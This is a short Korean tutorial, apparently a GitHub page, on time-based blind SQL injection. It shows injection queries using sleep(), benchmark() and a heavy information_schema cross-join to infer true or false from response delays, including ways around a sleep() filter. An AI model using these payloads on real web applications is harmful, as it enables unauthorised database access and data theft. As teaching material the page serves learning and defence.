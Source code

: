 # time based blind sqli

#### time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이므로 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 이처럼 sleep() 같은 시간지연 함수가 필터링 될때에는 다양한 방법중에
자주 쓰이는 방법은 3개의 함수, 쿼리가있다.

```sql
sleep()

benchmark()

SELECT count(*) FROM information_schema.columns A , information_schema.columns B , information_schema.columns C;
```

이 3개의 방법을을 응용하여 

time-based sql injection 쿼리를 만든다면

이렇게 완성된다.
```sql

SELECT * FROM member WHERE id='' or 1=1 and sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and benchmark(73900000*10,md5(1));

SELECT * FROM member WHERE id='' or 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```

### sleep(10);

> sleep()는 

sleep() 함수는 정속적으로 지연되면 True 
그렇지 않다면 False 를 반환한다.

